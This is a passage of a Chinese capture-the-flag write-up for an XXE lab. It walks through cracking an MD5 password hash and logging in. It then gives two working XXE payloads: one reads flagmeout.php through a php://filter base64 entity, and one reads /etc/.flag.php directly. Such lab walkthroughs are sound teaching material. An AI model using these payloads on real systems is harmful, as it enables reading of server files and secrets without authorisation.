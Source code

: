 ```php
    }
}

```

那我们就将密码MD5解码https://www.cmd5.com/，得到`admin@123`



## 6

因为是`/xxe/admin.php`页面返回来的结果，那我们就用账号：`administhebest`，密码：`admin@123`登陆一下。

登录之后页面有一个超链接，链接到`/flagmeout.php`，访问，直接NotFound了。

那我们就还是回到`/xxe/`，这次将`/flagmeout.php`用base64返回回来。

**XML如下：**

```
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY sp SYSTEM "php://filter/read=convert.base64-encode/resource=flagmeout.php">
]>
<root><name>&sp;</name><password>hj</password></root>
```

**结果如下：**

```php
<?php
$flag = "<!-- the flag in (JQZFMMCZPE4HKWTNPBUFU6JVO5QUQQJ5) -->";
echo $flag;
?>
```

**接下来当然就是解码：**

因为全是大写所以猜测是base32编码，得到`L2V0Yy8uZmxhZy5waHA=`，再base64解码，得到`/etc/.flag.php`，其实直接`CyberChef`就行了



## 7

既然得到了`/etc/.flag.php`，那我们下一步当然就是访问它了。

**XML如下：**

```
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY sp SYSTEM "/etc/.flag.php">
]>
<root><name>&sp;</name><password>hj</password></root>
```
